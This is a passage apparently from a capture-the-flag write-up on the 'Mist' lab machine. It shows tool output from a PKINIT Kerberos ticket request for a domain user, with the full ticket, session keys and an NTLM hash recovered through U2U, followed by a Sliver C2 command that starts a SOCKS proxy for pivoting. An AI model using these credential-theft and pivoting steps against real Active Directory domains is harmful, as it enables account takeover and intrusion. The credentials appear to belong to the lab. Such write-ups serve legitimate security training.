   v2.3.2 

[*] Action: Ask TGT

[*] Got domain: mist.htb
[*] Using PKINIT with etype rc4_hmac and subject: CN=Brandon.Keywarp, CN=Users, DC=mist, DC=htb 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'mist.htb\brandon.keywarp'
[*] Using domain controller: 192.168.100.100:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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
      Lmh0Yg==

  ServiceName              :  krbtgt/mist.htb
  ServiceRealm             :  MIST.HTB
  UserName                 :  brandon.keywarp (NT_PRINCIPAL)
  UserRealm                :  MIST.HTB
  StartTime                :  4/22/2025 10:59:22 AM
  EndTime                  :  4/22/2025 8:59:22 PM
  RenewTill                :  4/29/2025 10:59:22 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  zh449FMvfz8Z582ik5VO4w==
  ASREP (key)              :  7838D49BEE53789625E15EAF1E0E9454

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : DB03D6A77A2205BC1D07082740626CC9
```


#### accessing AD server throught socks proxy on brandon.keywarp user

```
sliver (GRATEFUL_PERCH) > socks5 start

